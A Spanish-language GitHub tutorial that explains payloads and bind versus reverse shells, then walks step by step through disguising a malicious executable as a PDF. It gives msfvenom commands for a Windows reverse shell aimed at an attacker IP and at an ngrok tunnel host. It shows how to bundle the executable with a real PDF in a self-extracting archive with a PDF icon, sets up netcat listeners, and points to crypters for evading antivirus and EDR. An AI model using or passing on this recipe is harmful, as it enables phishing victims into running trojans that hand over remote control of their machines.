 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=19&pause=1000&color=D1F700&width=489&lines=Incrustar+Payload+.EXE+a+un+archivo+.PDF"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>Qué es un PAYLOAD y cuáles son sus TIPOS</ins></h3>

En el campo de la seguridad informática el payload (*carga útil*) son los datos o metadatos transmitidos como un mensaje para facilitar la entrega de éste. Un ejemplo de la vida real sería un avión o camión de carga, donde éste transporta grandes mercancías para su utilización. Ahora bien, cuando se envía un correo electrónico también se transmite datos como el mensaje, la cabecera, el cuerpo del mensaje y otros metadatos que quieres que reciba el destinario.

El término de "**carga útil maliciosa**" o "**payload malicioso**" aparece en escena cuando hablamos especificamente de ciberseguridad. Un exploit es una vulnerabilidad, y el payload es la carga que se ejecuta en esa vulnerabilidad para realizar ciertas acciones maliciosas en el sistema, como ejecutar comandos remotos, borrar ficheros o enviar datos, secuestrar una URL para redireccionar al usuario a un sitio web malicioso con malware adjuntado, entre otras.  Los payloads maliciosos primero tienen que encontrar la entrada correcta para llegar al dispositivo, la forma más común de entregar la carga útil es a través de la ingeniería social como el phishing, email spoofing, entre otros ataques avanzados de suplantación de identidad. Entrando en juego, un ejemplo sería cuando recibes un correo electrónico de la empresa "Amazon" para rastrear tu pedido. Como estás esperando la entrega, haces clic en el enlace. El enlace te lleva a una página de seguimiento de pedidos de Amazon, pero automáticamente se descarga un archivo "confiable", en realidad, es el payload malicioso incrustado en un archivo legítimo. Está técnica se le conoce como secuestro de DNS acompañada de ingeniería social, en algunos casos la página legítima de la empresa es secuestrada por el atacate para inyectar código malicoso (Javascript u otro lenguaje) e incrustar payloads.

##### TIPOS de PAYLOADS

- **Payload BIND (Directo)**: Una shell directa es una especie de configuración donde las consolas remotas se establecen con otras computadoras a través de la red. En Bind shell, el atacante inicia un servicio en la computadora de destino, a la que puede concectarse. Para ello, el atacante debe tener la IP de la víctima para acceder al dispositivo y ejecutar comandos remotos. Bind TCP abre un puerto en el dispositivo de la víctima. Por lo general, una máquina está detrás de un firewall (o NAT) y los firewalls no permiten más puertos que algunos específicos (21, 22, 80, 443, etc). Un puerto abierto significa que podría estar disponible para que cualquiera pueda interactuar con ese puerto en el host de la víctima.

- **Payload REVERSE (Inverso)**: Mientra tanto, en una shell inversa el atacante usa la ejecucción de código inicial para que la máquina de la víctima se comunique con la máquina del atacante para obtener acceso. En este escenario, el atacante configura un puerto escucha, el puerto _1234_ por ejemplo, y espera que la máquina de la víctima se comunique e instale la carga útil. Su principal ventaja es que la máquina víctima es quién se conecta a la máquina atacante, sin necesidad de abrir un puerto en la máquina víctima, evitando así que usuarios no deseados accedan a él. Además, los firewalls basados en hosts y/o red son más restrictivos en filtrados de salida. 

En conclusión, las cargas útiles inversas son más eficientes dado que es más probable que eludan cortafuegos.

- <a href="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/WEB/ataqueXSS.md">Vulnerabilidad Cross-site scripting y secuestro de cookies</a>

- <a href="https://www.geeksforgeeks.org/difference-between-bind-shell-and-reverse-shell/">Diferencia entre payload Bind y Reverse</a>

<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/O.S/img/tiposPayloads.png">
</p>

<h1 align="center"></h1>

### ➤ Incrustar payload .EXE 

En el siguiente ejemplo utilizaré la herramienta Msfvenom del framework Metasploit para generar el payload. Abriré una terminal de la máquina atacante (Kali) y ejecutaré el siguiente comando para generar un payload de tipo reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4444 -f exe -o documento.exe
```

![1](https://user-images.githubusercontent.com/75953873/221320034-6f8e564e-c111-4554-8678-6580b10aabba.png)

- **-p**: Tipo de payload (para Windows de 64bits de tipo reverse).

- **LHOST**: IP de la máquina atacante.

- **LPORT**: Puerto escucha.

- **-f**: Formato del archivo (.exe).

- **-o**: Nombre del archivo (salida).

El siguiente paso será copiar el payload generado al escritorio de Windows. Después, hay que descargar el icono de PDF (en PNG) y convertirlo a `.ico` con la siguiente página (https://www.icoconverter.com/):

![2](https://user-images.githubusercontent.com/75953873/221322644-1b8a2990-3796-4154-9010-961142191c73.png)

Ahora, deberán crear un documento PDF (original) y combinarlo con el payload. Para ello, seleccionan los dos archivos (payload .EXE y documento .PDF) y le dan clic a "_Añadir al archivo_".

![3](https://user-images.githubusercontent.com/75953873/221322932-e7c37e7f-3d3a-4f85-a130-23b65446df87.png)

Marcan la casilla de "_Crear un archivo autoextraíble_" y en el método de compresión seleccionan "_La mejor_".

![4](https://user-images.githubusercontent.com/75953873/221323181-d5cc8413-3faf-4f22-8355-00cef6ec84bc.png)

Luego, en el apartado de "**Avanzado**", dan clic en "_Autoextraíble_" **->** "_Instalación_" y escriben el nombre de los dos archivos, es decir, del payload y el documento malicioso.

![5](https://user-images.githubusercontent.com/75953873/221323376-e204ff6f-470d-48ee-904e-a8dbd36befbd.png)

En la sección de "**Actualizar**" marcan las casillas de "_Extrar y actualizar ficheros_" y "_Sobrescribir todos los ficheros_".

![6](https://user-images.githubusercontent.com/75953873/221323534-9e55c199-7180-4dd1-9bd4-864cc94a9bd8.png)

Para añadir el icono hay que ir a "**Texto e icono**" y cargarlo en la última opción "_Cargar icono desde fichero_"; aquí seleccionan el logo convertido a `.ico`.

![7](https://user-images.githubusercontent.com/75953873/221323864-326a2cf4-8580-43e5-baf6-e9842b94ebf7.png)

Por útilmo, escogen el nombre del archivo malicioso.

![8](https://user-images.githubusercontent.com/75953873/221324091-a0926da4-c1d8-4737-a2cb-f70255f30b9b.png)

Desde la máquina atacante pondremos a escucha conexiones por el puerto `4444` con la herramienta de Netcat.

```
nc -nlvp 4444
```

- **-n**: Modo dirección IP númerica.

- **-l**: Modo escucha.

- **-v**: Modo verbose (detalles de conexiones).

- **-p**: Puerto específico de escucha.

Y esperamos que la víctima ejecute el documento malicioso y le de a "**Instalar**".

![9](https://user-images.githubusercontent.com/75953873/221324860-3dc1a8e3-116b-4812-b028-3e874f5d071c.png)

Rápidamente conseguiremos acceso a la máquina víctima y podremos ejecutar comandos remotos.

![10](https://user-images.githubusercontent.com/75953873/221324978-a2d0344f-fe32-4288-9252-ad6413dc15d1.png)

<h1 align="center"></h1>

#### ➤ Fuera de la red LAN

El método anterior solo funciona si la víctima se encuentra conectado a la misma red local que el atacante. Para hacerlo funcionar fuera de la red LAN hay que crear un túnel dinámico para convertir nuestra conexión (o servicio) local a público, esto gracias al proxy inverso que ofrece <a href="https://ngrok.com/download">**Ngrok**</a>. Por ejemplo, si tenemos un servicio arrancando en `http://localhost:8080`, lo que hará negrok es generar una URL dinámica del tipo `http://xxxxxx.ngrok.io` visible en internet que apunta a nuestro localhost.

- <a href="https://www.youtube.com/watch?v=JNpg_iA_zWc">Instalar NGROK en Linux</a>

El primer paso será crear un túnel TCP por el puerto 9999:

```
ngrok tcp 9999
```

![11](https://user-images.githubusercontent.com/75953873/221445377-9df84e93-3b3a-465f-b7b1-ad5fd7048351.png)

Ahora, crearemos nuevamente el payload pero está vez sustituimos el **LHOST** por la dirección de Ngrok y el puerto **LPORT**.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=0.tcp.sa.ngrok.io LPORT=12296 -f exe -o documento.exe
```

![12](https://user-images.githubusercontent.com/75953873/221445539-c34703b3-56f5-469f-bb03-ececf9cf19f7.png)

Repiten los pasos utilizados para incrustar el payload en el documento, el puerto que usamos para abrir el túnel Ngrok fue `9999`. Por lo tanto, pondremos a escucha el mismo con Netcat:

```
nc -nlvp 9999
```

![13](https://user-images.githubusercontent.com/75953873/221445921-d0f74a2a-f3a7-4e84-84df-a4814ba0dc9b.png)

Una carga útil de Msfvenom es altamente detectable por los antivirus, a día de hoy las base de datos de AV contienen las firmas de cientos de malware para su detección.

![14](https://user-images.githubusercontent.com/75953873/221446743-1d93ec54-7569-49fe-884f-0dca63e66510.png)

Generalmente los atacantes utilizan un crypter para evadir los antivirus. Un crypter es un software que altera los archivos con el objetivo de que éste puede saltarse las diversas protecciones que propone un antivirus. Repasando las técnicas de los AV, cuentan con dos formas para detectar las amenzanas:

- **Firmas**: los antivirus detectan patrones hexadecimales de los archivos y los comparan con su base de datos. En caso de coincidir, la amenaza será bloqueada.

- **Heurística**: los antivirus detectan comportamiento malintencionado de un archivo y lo catalogan como amenaza si éste es malicioso.

- <a href="https://www.kaspersky.es/blog/signature-virus-disinfection/9298/">Firmas - Kaspersky</a>

- <a href="https://www.kaspersky.es/resource-center/definitions/heuristic-analysis">Heurística - Kaspersky</a>

La mayoría de los Crypters son privados debido al esfuerzo que hay detrás para mantenerlo actualizado, y los que hay gratis, son inútiles o vienen con una sorpresa incluída. Sin embargo, hay proyectos en github como el caso de <a href="https://github.com/MrEmpy/Condor">**Condor**</a> creados con fines de ayudar a los probadores de penetración a eluir la protección como AV/EDR/XDR en el sistema operativo Windows.
